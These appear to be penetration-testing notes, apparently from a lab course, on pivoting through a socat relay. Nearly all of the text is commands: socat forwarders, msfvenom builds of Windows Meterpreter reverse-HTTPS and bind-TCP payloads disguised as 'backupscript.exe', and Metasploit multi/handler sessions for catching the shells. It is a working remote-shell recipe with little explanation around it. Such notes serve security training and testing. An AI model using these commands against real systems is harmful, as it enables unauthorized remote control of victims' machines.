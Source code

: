 
## Reverse Shell Method

Starting socat listener on attack host
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Generate payload
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

Establishing multi handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run
```


## Bind Shell Method

Starting socat listener
```shell-session
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Create bind shell payload
```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

Establishing multihandler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run
```
